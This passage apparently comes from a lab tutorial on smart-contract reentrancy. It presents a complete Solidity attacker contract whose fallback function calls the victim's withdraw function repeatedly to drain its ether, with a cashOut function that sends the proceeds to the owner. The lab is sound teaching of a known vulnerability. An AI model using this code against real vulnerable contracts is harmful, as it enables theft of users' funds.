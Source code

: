 ![Withdrawing 5 ether from the victims account](images/image4.PNG)

We can now start setting up the attacker's contract.

## Task 2: The Attacking Contract

In this task we will explore the attacker's contract and how it can exploit the vulnerability in the withdraw function on the victim's contract. The following is the attacker's contract:

```sol
pragma solidity ^0.6.8;

import "./ReentrancyVictim.sol";

contract ReentrancyAttacker {
    ReentrancyVictim public victim;
    address payable _owner;
    
    constructor(address payable _addr) public {
        victim = ReentrancyVictim(_addr);
        _owner = payable(msg.sender);
    }
    
    fallback() external payable {
        if(address(victim).balance >= 1 ether) {
            victim.withdraw(1 ether);
        }
    }
    
    function attack() external payable {
        require(msg.value >= 1 ether, "You need to send one ether when attacking");
        victim.deposit{value: 1 ether}();
        victim.withdraw(1 ether);
    } 
    
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
 
    function cashOut(address payable _addr) external payable {
        require(msg.sender == _owner);
        _addr.transfer(address(this).balance);
    }
}
```
